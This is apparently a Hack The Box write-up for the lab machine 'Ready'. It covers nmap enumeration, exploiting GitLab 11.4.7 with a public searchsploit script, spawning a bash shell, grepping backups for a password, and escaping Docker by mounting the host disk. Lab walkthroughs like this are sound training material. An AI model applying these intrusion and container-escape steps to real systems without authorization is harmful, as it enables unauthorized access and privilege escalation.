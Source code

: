 # HTB Ready Writeups
IP = 10.10.10.220

## Enumeration


Starting as always with nmap:
```nmap -sV -sC 10.10.10.220
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-11 01:54 IST
Nmap scan report for 10.10.10.220
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-title: GitLab is not responding (502)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.11 seconds
```

So there is 2 ports open, ssh and http...  
also we go a robots.txt file and we know its gitlab  

We got an login and register option  
So lets make a user...  
![login](https://user-images.githubusercontent.com/51215035/110734281-28d4ae00-8230-11eb-9596-049a1f5aa5e8.png)  
   
After logging in first we will check the version of gitlab:  
![version](https://user-images.githubusercontent.com/51215035/110735162-e44a1200-8231-11eb-8e73-3165fa8d8e7d.png)


I like what i see!, lets searchsploit!  
```searchsploit gitlab 11.4.7```
![search](https://user-images.githubusercontent.com/51215035/110735664-e6f93700-8232-11eb-87e1-be225c69ebe0.png)
Nice!  

## Exploitation

I tried the first exploit one, it didnt work, but the second exploit working great  
```
searchsploit -m ruby/webapps/49257.py  
```  


Edit the code a bit:  
![code](https://user-images.githubusercontent.com/51215035/110735341-4acf3000-8232-11eb-9488-213d826ebca1.png)
(for the authenticity token i capture a request to open new repository with burp)


And run...  
![run](https://user-images.githubusercontent.com/51215035/110735474-8964ea80-8232-11eb-8b23-bcc08cba7091.png)


Getting normal shell:  
```
which python3
/opt/gitlab/embedded/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
```
For some reason I could read the user flag from here...  
```
cat /home/dude/user.txt
  e1e30b052b6ec0670698805d745e7682
```  


## Privilage escalation

It took me quite a long time to find something, I was just looking all over trying to find something until I got to /opt/backup/  
There I just cat everything and grep for password.  
![pass](https://user-images.githubusercontent.com/51215035/110736211-ed3be300-8233-11eb-91a8-59767be2456f.png)  


Found: ```gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"```

And there was the most frustrating part in this box for me, I was sure I'm done but there was no flag in /root folder  
Than i realized I was in a docker...  
So I googled "docker escape" and found this:  
[HackTricks ](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)  

Starting to test some things from the article  
```
fdisk -l
```
Then
```
mkdir -p /mnt/hola
mount /dev/sda2 /mnt/hola
```
And wallah, as simple as this, now when im going to hola directory, I'm out of the docker, so all what left to do is grab the root flag.  
```
root@gitlab:/mnt# cd hola/root
  cd hola/root
root@gitlab:/mnt/hola/root# cat root.txt
  cat root.txt
  b7f98681505cd39066f67147b103c2b3
```


